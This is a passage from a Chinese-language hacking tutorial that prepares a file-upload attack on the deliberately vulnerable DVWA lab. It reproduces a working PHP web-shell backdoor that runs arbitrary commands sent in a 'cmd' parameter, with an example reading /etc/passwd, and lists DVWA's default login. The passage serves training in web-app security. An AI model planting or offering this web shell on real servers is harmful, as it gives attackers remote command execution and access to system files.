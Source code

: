在客户机作为目标的情况下，我们可以获得一个 Javascript 有效载荷。
然而，在本教程中，我们将通过上传然后执行一个简单的后门来攻击服务器。

您可以自由地获得您想要的有效负载，也许还可以使用您的 [Kali Linux](https://www.stackzero.net/how-to-install-kali-linux-on-virtualbox-in-a-few-minutes/) 实例中的 Metasploit 来生成它。在我的例子中，只是作为概念的证明，我将从[这个库](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php)上传这个简单的 PHP 后门。

```
 <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

所以让我们将代码保存在一个名为“backdoor.php”的文件中。

开始我们的黑客活动之前的最后一步是运行 [DVWA](https://github.com/digininja/DVWA) 的实例，正如我在许多演练中所做的那样，我将使用 [TryHackMe](https://tryhackme.com/room/dvwa) 上的实例，但是您也可以在 VM 中运行您的实例。

使用这些凭据登录后:

*   **用户名**:管理员
*   **密码**:密码

![](img/748e8ba525d6c86744455cc05abfc672.png)

进入设置，将难度设置为“低”。
